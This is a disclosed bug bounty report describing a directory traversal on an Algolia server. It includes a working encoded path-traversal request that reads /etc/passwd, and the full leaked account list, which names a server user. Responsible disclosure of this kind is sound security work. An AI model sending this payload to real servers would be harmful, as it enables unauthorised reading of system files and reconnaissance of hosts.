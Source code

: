 # Directory traversal at https://msg.algolia.com

## Report Details
- **Report ID**: 333306
- **URL**: https://hackerone.com/reports/333306
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-04-04T05:21:44.368Z
- **Disclosed**: 2018-06-09T18:26:07.542Z

## Reporter
- **Username**: n00bsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: algolia

## Vulnerability Information
Hi,
I was able to view the internal server files at https://msg.algolia.com.
Please see the attached screenshots for proof.
I have tried to reproduce from within firefox and internet explorer without much luck however if you need it I will try to come up with a work around.
For reference the response header is as follows:
--------------------------------------------------------------------------
HTTP/1.1 200 OK
Date: Wed, 04 Apr 2018 04:58:25 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Last-Modified: Tue, 06 Jun 2017 09:15:37 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 4061331ffd53aa7a-SIN
Content-Length: 1696
-------------------------------------------------------------------------------------
And here request to view directory traversal
GET /static/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd HTTP/1.1
Host: msg.algolia.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: id,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __cfduid=d34587d94eba9413080d1f7aca5062a871522817854
Connection: close
Upgrade-Insecure-Requests: 1

Response:

HTTP/1.1 200 OK
Date: Wed, 04 Apr 2018 04:58:25 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Last-Modified: Tue, 06 Jun 2017 09:15:37 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 4061331ffd53aa7a-SIN
Content-Length: 1696

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:109::/var/run/dbus:/bin/false
lxd:x:107:65534::/var/lib/lxd/:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ntp:x:112:116::/home/ntp:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
eranchetz:x:1001:1002::/home/eranchetz:/bin/bash

## Impact

we can see sensitive information (ex. /etc/passwd) file

## Attachments
- 1.png
- 2.png
- 3.png
